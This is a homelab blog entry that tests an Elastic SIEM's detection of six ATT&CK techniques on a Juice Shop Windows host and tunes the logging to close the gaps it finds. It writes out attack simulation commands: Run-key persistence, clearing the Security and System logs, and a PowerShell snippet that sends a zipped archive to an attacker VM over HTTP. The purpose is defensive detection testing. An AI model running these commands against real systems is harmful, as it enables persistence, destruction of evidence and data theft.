# Homelab Entry #6: Improving Endpoint Visibility

## TL;DR
I tested whether my Elastic SIEM could actually detect attacks on a Windows endpoint by simulating six different MITRE ATT&CK techniques (exploiting a public-facing app, PowerShell execution, registry persistence, log clearing, data archiving, and HTTP exfiltration) and checking what got caught and what slipped by.

What I found:

The SIEM had no visibility into the web server at all until I ingested its access logs.
Clearing the Windows event logs went completely undetected, because the System integration was missing from my agent policy.
PowerShell logging was noisy and incomplete. After tuning, the same test generated 5 events instead of 12, with full script block logging.
My firewall actually works. It actually works. It was actually a real problem when I tried to simulate exfiltration.
A Fleet agent silently ignored my policy changes because its revision number was higher than the policy's.

What's left: Web server POST bodies and the contents of network transfers are still invisible, and closing those gaps would be a whole seperate project.

Skills shown: Elastic Agent/Fleet administration, Sysmon and PowerShell logging configuration, ATT&CK-mapped detection testing, and troubleshooting.

## Improving Endpoint Visibility

Although Elastic *technically* works, there is still much work to be done. Sysmon isn't configured correctly, and there are lots of visibility gaps. Therefore, I will try to identify log sources and information that I will need to detect relevant attacks on my Juice Shop endpoint.

To avoid high complexity dealing with privacy and data laws, they will not be considered here. First, I'll create a table with ATT&CK techniques I want to focus on and the data sources needed for them. For simplicity's sake, I will only choose a handful of tactics.

| ATT&CK Technique | Description | Sources Needed |
|------------------|-------------|----------------|
| T1190 | Initial Access: Exploit Public-Facing Application | Webserver Access Logs (Visibility Gap: POST bodies not visible) |
| T1059 | Execution: Command and Scripting Interpreter | Sysmon (Event Code 1), PowerShell Operational Log (Event Code 4103, 4104) |
| T1112 | Persistence: Modify Registry | Sysmon (Event Code 13) |
| T1685.005 | Defense Impairment: Clear Windows Event Logs | Windows Security Logs (Event Code 1102), Windows System Logs (Event Code 104) |
| T1560 | Collection: Archive Collected Data | Powershell Operational Log (Event Code 4104), and potentially Sysmon (Event Code 1) |
| T1048 | Exfiltration: Exfiltration over Alternative Protocol - Exfiltration over Unencrypted Non-C2 protocol (HTTP) | Sysmon (Event Code 3), Network Logs (out of scope; Visibility Gap: transmission contents not visible) |

## T1190 || Initial Access: Exploit Public-Facing Application 
### Overview <!-- Goals and Necessary Data Sources -->
The SIEM currently has zero visibility on the Juice Shop, posing a significant risk as responding to incidents and detecting attackers will be heavily delayed and hindered without proper visibility. The most immediate action is to ingest the Juice Shop's access logs into the SIEM.

### Current Visibility
**Missing 🔴**
I do not have visiblity in webserver logs. After clicking around on the Juice Shop, a broad search for GET requests in the SIEM produces zero results.

### Configuration Changes
The Juice Shop records GET, POST, and other requests in its access logs. These logs can be ingested into the SIEM using the Elastic Apache integration. I aim the integration towards the relevant Juice Shop access logs.

### Simulation
GET requests seem to now get logged. Awesome. This shows us that the events are coming in normally.



Lets see if it can also catch a POST request. I send a login request, and the respective event appears as expected. However, I note a gap in visiblity—the contents of the POST request are not logged.



Now, lets test some common attacks against the Juice Shop. First, I'll test a simple (successful) brute force attack against the login page of the webserver using ffuf with the Attacker VM. Looking back at Elastic SIEM, I immediately see a massive spike in the amount of logs.



Now, lets see if I have sufficient data to triage this attack if it were a real one. Looking through the timeframe from Nov 9, 2026 @ 01:25:50 to Nov 9, 2026 @ 01:26:00 in the logs, I observe:
- the most common IP address, seen in the source.ip field with 70 records, is `10.0.0.22`. This is the auto-assigned IP address for my Attacker VM.
- the targeted URL, seen in the url.path field, was `/rest/user/login`. The URL aligns with the brute force attack.
- the brute force is fast—the 70 requests were generated within the span of 10 seconds, so approximately 7 requests a second.
- the tool used was FFUF, seen in the user_agent.original field as `Fuzz Faster U Fool v2.1.0-dev`.
- the attacker was successful, as the attacker had a successful sign-in, seen through an HTTP response code 200 (success).

The main information of a brute force attack is collectible, and thus the visibility is acceptable against brute force attacks.

### Conclusion

The visibility of the Juice Shop has been significantly improved with the ingestions of access logs into the SIEM. It provides important surface-level data for most operations. However, access logs are insufficient for determining POST request bodies, and without a reverse proxy or another solution, a login bypass via SQL injection may look the same as a regular login.

## T1059 || Execution: Command and Scripting Interpreter

### Overview <!-- Goals and Necessary Data Sources -->
Although Sysmon is installed, I do not know the full extent of its current configuration. Many log sources are in their default configuration, which are typically less than ideal. In order to detect T1059 and properly investigate it, I will need data from multiple sources, primarily Sysmon and PowerShell logs.

### Current Visibility
**Needs Tuning 🟣**\
Testing visibility against T1059 primarily involves using command and scripting interpreters to execute malicious code. On a Windows endpoint, the most relevant command and scripting interpreters would include the Command Prompt, PowerShell, and installed programming languages such as Python.

**Testing PowerShell:**\
I want to simulate an attacker using `cmd.exe` to execute a Base64-encoded PowerShell command which subsequently runs an executable—Notepad, in this situation. I can use the following command in `cmd.exe`:

`powershell.exe -EncodedCommand "bgBvAHQAZQBwAGEAZAA="`

After executing this, I should have at least three events pop up:
1. `cmd.exe` opening
2. `powershell.exe` opening
3. `notepad.exe` opening

After executing it I look for each associated event.

EventCode 1 gets correctly logged, allowing me to see both the `cmd.exe` and `powershell.exe` events with sufficient information about the process, the user, and its parent.



However, it appears that to avoid noise, my current configuration of Sysmon did not log the `notepad.exe` opening event. Acceptable, but I will need to take a close look at my Sysmon config to see exactly where my visibility gaps will be with Sysmon.

What concerns me more though is the amount of unnecessary noise my current configuration is generating. Executing the encoded command created 12 Events, most of which are unnecessary.

Primarily, there is an excessive amount of events with Event Code 600, which despite potentially being useful in specific cases, does not provide enough extra data to justify its presence in the logs. In its place however, I will need to log PowerShell Script Block Logging in order, which generates Event Code 4104. This provides high-fidelity information on commands executed in PowerShell—information that Event Code 600 wouldn't tell me.



Thus, I have three things to do:
1. Stop ingesting event code 600
2. Enable Script Block Logging
3. Check Sysmon configuration

### Configuration Changes
I can't disable event code 600 without disabling the entire log channel, so I'll have to exclude it from ingestion in the Windows integration in Elastic. Alongside code 600, I also exclude code 403 and 800 to cut down on storage consumption, as Script Block Logging and Sysmon should be enough for my purposes.



Currently, Powershell only does Script Block Logging for commands it deems suspicious. An attacker can fairly easily bypass this, so I want it to log every event. For full visibility, I will need to make sure both Event Code 4103 and 4104 are active. Both Event Codes work together simultaneously for maximum coverage.

Using the help of AI, I'll need to run three different sets of commands. Of course, when it comes to commands its best to know what each does.

```
$sb = "HKLM:\SOFTWARE\Policies\Microsoft\Windows\PowerShell\ScriptBlockLogging"
New-Item -Path $sb -Force | Out-Null
Set-ItemProperty -Path $sb -Name EnableScriptBlockLogging -Value 1 -Type DWord
```

This first set of commands saves a registry path to a variable `sb`, and creates a new registry key with it. Afterwards, it adds a new value named `EnableScriptBlockLogging` and sets it to 1 (enables it).

```
$ml = "HKLM:\SOFTWARE\Policies\Microsoft\Windows\PowerShell\ModuleLogging"
New-Item -Path "$ml\ModuleNames" -Force | Out-Null
Set-ItemProperty -Path $ml -Name EnableModuleLogging -Value 1 -Type DWord
Set-ItemProperty -Path "$ml\ModuleNames" -Name "*" -Value "*" -Type String
```

This second set of commands also does something similar, except it forms two values.

```
wevtutil sl "Microsoft-Windows-PowerShell/Operational" /ms:536870912   # 512 MB
```

Finally, this third command increases the size of the Powershell log file, as Event Code 4103 and 4104 use a fair bit of a space.

After executing the commands, Script Block Logging and Module Logging should be fully enabled.

Finally, the last thing I want to do is get a better Sysmon configuration. Sysmon's default configuration is not great, so I'll download a config file from [online](https://github.com/olafhartong/sysmon-modular/releases/tag/configs-a45dedb13a43) to use, although I won't tune it for the environment as of now.

### Simulation
Finally, to test if the changes worked. This time, I'll run two commands: the same one as previously, and also a more benign command.

`powershell.exe -EncodedCommand "bgBvAHQAZQBwAGEAZAA="`

Unfortunately, event Code 600 and similar continued to appear despite the agent reporting itself is up-to-date with the newest version. After a half-hour of debugging, I found the root cause: the agent's tracked policy revision number was greater than the fleet server's, meaning the agent believed that it had a newer version than the server, causing it to refuse updates. While quirky, the fix was fairly simple: repeatedly make small changes to the fleet server's policy until the revision number exceeded that of the agent's, which finally led the agent to realize it's outdated and prompting an update.

After the fixes, the event codes 403, 600, and 800 no longer appear. Compared to the previous 12 events, this time only 5 events were logged, meaning that my changes are working as intended.





### Conclusion
With these changes, I have greatly improved visibility in PowerShell and have also cut out a fair amount of noise.

## T1112 || Persistence: Modify Registry

### Overview <!-- Goals and Necessary Data Sources -->
Modifying the registry is a common way to establish persistence on a machine, so ensuring that my SIEM can detect it is imperative.

### Current Visibility
**Acceptable 🟢**\
The most straightforward way to implant persistence is through the registry run keys, which will be our main target for this simulation. Using the windows `cmd.exe`, I will use `reg.exe` to plant a registry key that executes `notepad.exe` on startup.

I run the following command to set up the persistence mechanism:
```
reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\Run" /v "Secret Persistence" /t REG_SZ /d "\"C:\Windows\System32\notepad.exe\"" /f
```

Four events appear, two of which are from Sysmon. From Sysmon's event code 13, I can find a deep amount of information for the added registry key, including the name and location of the key (HKU\\...\Run\Secret Persistence), details of the key (C:\Windows\System32\notepad.exe), and even the process ID (4772). There is enough visibility already.



### Conclusion
No changes are needed.

## T1685.005 || Defense Impairment: Clear Windows Event Logs

### Overview <!-- Goals and Necessary Data Sources -->
Attackers may clear the event logs to destroy forensic evidence and make it more difficult to uncover past traces.

### Current Visibility
**Missing 🔴**
In order to test visibility against this, I will clear the Windows System and Security logs using the command `Clear-EventLog -LogName System, Security`. Unforunately, once I run it, no results return.



### Configuration Changes
With some research, it appears that the `System` integration is missing from my Elastic policy. The System integration logs the essential system logs, including `Application`, `System`, and `Security`. It's surprising I didn't have this; this shows how important it is to thoroughly check visibility. I add the integration into my policy and save the changes.

### Simulation

Running the same exact command as before, I now can see both events: event code 1102 (Security log cleared) and event code 104 (Other log cleared, in this case, System). These events provide essential information, such as the account that cleared the log and the Logon ID, and most importantly, the time. 



### Conclusion
Through this simulation, I was able to spot a major gap in my visibility that was previously unaccounted for. By ingesting major logs such as the Security, Application, and System log, I am now able to detect not only the clearing of event logs, but much more.

## T1560 || Collection: Archive Collected Data

### Overview <!-- Goals and Necessary Data Sources -->
Attackers, after gathering information about files in the compromised workstation, will want to exfiltrate sensitive documents. Typically there is an in-between step of staging the files for exfiltration, which involves saving the file into one archive.

### Current Visibility
**Acceptable 🟢**

I will use the built-in PowerShell Cmdlet `Compress-Archive`. Exactly what it sounds like, it compresses files into a `.zip` archive. I can run the following command in PowerShell on the Juice Shop:

```
Compress-Archive -Path "$env:USERPROFILE\Documents\flag.txt", "$env:USERPROFILE\Documents\secret.txt" -DestinationPath "$env:LOCALAPPDATA\Temp\archive.zip"
```

As expected, the associated 4104 event code appears, giving us the exact command that was run, as well as other important information such as PID, user, and more. Additionally, the 4104 event can be correlated to a file creation event, allowing investigations to be extended further.





### Conclusion
The current amount of logging is sufficient to detect the archival of files. If seperate binaries are used, such as `7z.exe`, Sysmon event code 1 will catch that.

## T1048 || Exfiltration: Exfiltration over Alternative Protocol - Exfiltration over Unencrypted Non-C2 protocol (HTTP)

### Overview <!-- Goals and Necessary Data Sources -->
Exfiltration is something almost every organization needs to be careful of. It is a common way for attackers to achieve their various goals. Thus, its important to ensure visibility over this.

### Current Visibility
**Acceptable, with caveats 🟢**

The goal of the exfiltration is to exfiltrate the `archive.zip` file from the previous simulation into an attacker-controlled webserver. I run the following Powershell commands to transfer the payload via a GET request:

```
$bytes = [System.IO.File]::ReadAllBytes("$env:LOCALAPPDATA\Temp\archive.zip")
$b64 = [Convert]::ToBase64String($bytes)
$payload = [uri]::EscapeDataString($b64)
Invoke-WebRequest -Uri "http://10.0.0.22:8080/?payload=$payload" -UseBasicParsing
```

However, as expected, the firewall completely blocks the attempt, preventing the exfiltration attempt from being a success. The final commmand, `Invoke-WebRequest`, returns an error. However, maybe the attempt could have been logged by Sysmon. However, when I filter for event code 3, all I see is outbound connection attempts to UDP port 5353. The most likely answer is that Sysmon event code 3 probably does not log unsuccessful connections blocked by a firewall.



However, trying to circumvent the firewall, such as using the Juice Shop as a means to exfiltration, is out of scope currently. In that case, I will create a temporary exemption over port 8080 to allow exfiltration to happen anyways. Of course, I will need to remember to disable it after I am finished. Executing the command again, exfiltration was indeed successful. The attacker VM was able to read the base64 contents, and with some quick Cyberchef operations, can be reconstructed into the original `.zip` file.




Now the important part: The visibility. Network logs are out of scope as mentioned earlier, as they can be a completely seperate project. However, Sysmon event code 3 isn't. Filtering for it and cutting out the noise (UDP 5353), a lot of the relevant information is there, but there are also notable gaps in visibility. Essential data such as the destination IP and destination port are logged, but the actual contents of the transmission are not visible. This is the main detection gap: it's possible to tell that something was sent over, but more information is needed to identify *what* was sent over.

Additionally, my current Sysmon configuration only logs event code 3 if it goes over suspicious ports, which is a visibility gap that will need to be considerd, as attackers may utilize ports a bit less obvious than 8080.



### Conclusion
Within the current scope, the visibility is practically as good as it gets. Trying to achieve greater visiblity requires ingesting network logs, which is a whole project of its own. However, knowledge of a network transmission existing is already extremely helpful.

Oh yeah, and I did remember to disable the rule allowing port 8080.

## Closing Thoughts
I thought I had decent visibility on the Juice Shop at the start of writing this entry, but now that it's coming to an end, I've realized how terribly wrong that assumption was. Zero webserver logs, barely any Powershell visibility, and zero visibility in arguably the two most important Windows logs: Security and System.

Ultimately, if I had one sentence to take away from all this, it would be: Don't assume, rigorously test and verify.